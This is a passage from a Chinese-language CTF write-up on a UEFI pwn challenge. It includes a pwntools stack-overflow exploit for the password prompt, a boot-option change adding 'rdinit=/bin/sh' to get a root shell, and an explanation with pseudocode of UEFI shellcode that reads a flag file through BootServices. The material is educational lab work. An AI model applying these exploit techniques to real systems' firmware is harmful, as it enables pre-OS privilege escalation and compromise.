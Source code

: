 ```python
# input("debug")
s(b"\n" * 0x70 + p64(0x101) + b"\r")

ru(b"Enter Password: \r\n")
payload = flat(
    {
        0xC0 - 0x18: [
            0x28B0DD5,
        ],
    },
    filler=b"\n",
)
payload += b"\r"
s(payload)

ia()
```

![UEFI-success1](static/uefi-success1.png)

最后在 `Boot Maintenance Manager`.`Boot Options`.`Add Boot Option`.`bzImage` 下新增自定义的启动参数条目（直接照抄 boot.nsh）：`console=ttyS0 -initrd=initramfs.cpio rdinit=/bin/sh` 即可实现提权利用。

### UEFI Shellcode

其实在本题栈溢出的情况下，接下来的利用就是开放性的做法了，上面只是提供了一种最简单的提权办法：Ret2Boot-Manager（我自己起的名😋）借助已有的 ui 接口篡改启动选项。我在学习这道题的时候还看到了 `Bootloader Shellcode` 的做法，写入 shellcode 之所以可行是因为在 UEFI 阶段：

- 大部分内存默认是可执行的
- UEFI 规范并未强制要求加入栈保护（canary），这取决于编译器的支持
- ASLR 需要操作系统的支持，但是 UEFI 运行于操作系统之前，故 UEFI pwn 中不太需要考虑内存随机化

特别对于本题而言，直接把 shellcode 溢出写到栈上再用已知栈地址去调用可以实现 bootloader shellcode 的攻击了。

UEFI Shellcode 的实现思路通常围绕 UEFI 提供的 BootServices 来实现读取文件、写入文件等操作。其中 UEFI Boot Services 提供了一系列的函数，用于在UEFI环境中执行各种操作，如内存管理、设备控制、文件操作等。这些服务只在操作系统启动之前可用，启动后由操作系统接管这些功能。

下面的 Shellcode 来源于 [Pwn2Win CTF 2021 Writeup](https://ptr-yudai.hatenablog.com/entry/2021/05/31/232507#Pwn-373pts-Accessing-the-Trush-8-solves)，实现如下功能：

```c
SystemTable->BootService->LocateProtocol(
	&gEfiSimpleFileSystemProtocolGuid,
	NULL,
	&foo);
foo->OpenVolume(foo, &bar);
bar->Open(bar, &file, "/path/to/flag", EFI_FILE_MODE_READ, EFI_FILE_READ_ONLY);
file->Read(file, &size, buf);
print(flag);
```

```python
#!/usr/bin/env python3

# from lianpwn import *
from pwn import *
from subprocess import Popen, PIPE

context.arch = "amd64"

rl = lambda a=False: io.recvline(a)
ru = lambda a, b=True: io.recvuntil(a, b)
rn = lambda x: io.recvn(x)
s = lambda x: io.send(x)
sl = lambda x: io.sendline(x)
sa = lambda a, b: io.sendafter(a, b)
sla = lambda a, b: io.sendlineafter(a, b)
```